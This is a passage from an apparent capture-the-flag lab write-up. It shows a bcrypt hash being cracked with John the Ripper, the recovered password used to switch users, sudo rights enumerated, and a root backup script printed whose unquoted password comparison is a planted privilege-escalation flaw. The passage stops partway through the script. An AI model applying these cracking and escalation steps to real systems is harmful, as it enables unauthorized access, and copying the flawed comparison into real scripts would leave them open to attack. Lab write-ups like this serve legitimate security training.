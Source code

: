now that I got `joshua`'s hash, I cracked it then used it to login via ssh

```bash
$ echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash
$
$ $ john hash --wordlist=$ROCK
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:00:39 DONE (2024-04-17 00:25) 0.02502g/s 34.23p/s 34.23c/s 34.23C/s winston..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
$
```

```bash
svc@codify:/var/www/contact$ su joshua
Password: 
joshua@codify:/var/www/contact$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

# root

once u login as `joshua` you find out that you can execute a bash script as root

```bash
joshua@codify:/opt/scripts$ sudo -l

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
  
joshua@codify:/opt/scripts$ cat /opt/scripts/mysql-backup.sh
```

## analyzing /opt/scripts/mysql-backup.sh

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
```